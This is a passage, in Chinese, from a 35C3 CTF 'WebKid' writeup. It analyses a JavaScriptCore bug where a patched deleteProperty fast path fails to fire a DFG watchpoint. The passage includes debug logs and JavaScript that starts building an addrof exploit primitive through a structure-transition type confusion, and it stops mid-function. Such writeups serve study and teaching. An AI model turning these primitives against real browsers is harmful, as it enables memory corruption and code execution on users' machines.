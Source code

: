 ```javascript
    return visit();
}
let o = {};
let res = primitiveMaybeNotExploitable(o);
print(res);
//[Object Object]
```

DFG生成的visit()函数在最后一次执行前，structureID为91，按理说已经不包含outOfLineProperty，但由于没有触发watchpoint，代码逻辑没有发生改变，而且butterfly指针保留，仍然能获得相应的引用。这是一个问题，但应该无法做到漏洞利用。

而正常版本的deleteProperty显然会触发watchpoint，最后得出结果是undefined：

```bash
Firing watchpoint 0x11c84d0a0 on visit#ETPOUh:[0x11cd784c0->0x11cd78260->0x11cd98f20, DFGFunctionCall, 35]

Jettisoning visit#ETPOUh:[0x11cd784c0->0x11cd78260->0x11cd98f20, DFGFunctionCall, 35] and counting reoptimization due to UnprofiledWatchpoint, Structure transition from 0x11cda7c60:[Array, {outOfLineProperty:100}, ArrayWithDouble, Proto:0x11cdb4090, Shady leaf].

```

![image-20190108142505592](35c3CTF WebKid writeup heuristic transition.assets/image-20190108142505592-6928705.png)

栈回溯的第12条是原版代码中被fast path越过的代码。removePropertyTransition才是用来触发WatchpointSet::fireAll的函数调用，而patch中只是简单地设置了：

```c++
thisObject->setStructure(vm, previous);
```



### 二、primitive构造

WatchPointSet是通过structure对象索引的，structure对象由structureID确定，因此一个structureID对应一个WatchPointSet。在第一部分的visit()函数中，DFG插入Watchpoint时，arr的类型是ArrayWithDouble并附加一个outOfLineProperty，structureID是282。也就是说WatchPointSet对应strucutre282，那么之后变成structure91之后是没有注册WatchPointSet的，如果再次进行类型转换，仍然不会fire。

![image-20190108144723764](35c3CTF WebKid writeup heuristic transition.assets/image-20190108144723764-6930043.png)

(如果struture91被注册了WatchPointSet，在654行会进行fire)

因此再给代码增加一个transition，用传统的convertDoubleToContiguous：

```javascript
function primitiveAddrOf(obj) {
    let arr = [1.1, 2.2, 3.3];
    arr.outOfLineProperty = 4.4;

    function visit() {
        return arr[0];
    }
    for (let i = 0; i < 0x1000; i++) {
        visit();
    }
    print(describe(arr));
    //Object: 0x11cdc8580 with butterfly 0x18000f8468 (Structure 0x11cda7c60:[Array, {outOfLineProperty:100}, ArrayWithDouble, Proto:0x11cdb4090, Leaf]), StructureID: 282
    delete arr.outOfLineProperty;
    print(describe(arr));
    //Object: 0x11cdc8580 with butterfly 0x18000f8468 (Structure 0x11cdf2760:[Array, {}, ArrayWithDouble, Proto:0x11cdb4090]), StructureID: 91
    arr[0] = obj;
    print(describe(arr));
    //Object: 0x11cdc8580 with butterfly 0x18000f8468 (Structure 0x11cdf27d0:[Array, {}, ArrayWithContiguous, Proto:0x11cdb4090]), StructureID: 92
```